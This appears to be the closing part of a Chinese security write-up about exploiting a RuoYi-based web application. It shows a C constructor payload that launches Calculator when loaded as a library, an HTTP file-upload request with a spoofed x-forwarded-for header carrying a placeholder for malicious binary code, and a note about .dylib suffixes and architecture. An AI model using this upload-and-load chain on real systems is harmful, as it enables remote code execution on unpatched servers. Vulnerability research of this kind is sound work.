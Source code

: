   
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicia6bEM5Wyrmm3KBlC1TiaicucSoicorh2hQv1wlzVhom40cE1PzDDEd8bA/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicrCJ4EqANqJVicnpW8Cic4uHS3sHR2PV79YMU9KHj4H2AW8Y8oJvpAmAQ/640?wx_fmt=png&from=appmsg "")  

```
cat calc.c 

#include <stdlib.h>
__attribute__((constructor))
staticvoid run() {
system(&#34;open -a Calculator&#34;);
}

```


```
POST /common/upload HTTP/1.1
Host: 10.40.107.67
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=b414f17a-7363-47d9-b164-3d0532a09b1c
x-forwarded-for: 127.0.0.1
Connection: close
Content-Type: multipart/form-data; boundary=00content0boundary00
Content-Length: 167

--00content0boundary00
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;com.ruoyi.quartz.task.txt&#34;
Content-Type: image/jpg

二进制恶意代码
--00content0boundary00--

```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicdAPw6F0qkic9Qg1ZqsxOgzT1qY1wJPHPrD6HuC7oBjgthoclY2tPiaHA/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
  
注意他会自动在后面添加dylib等后缀，在不同的系统中可能有不同的后缀，并且要注意架构问题  
  
文章作者：奇安信攻防社区（  
 Locks_）  
  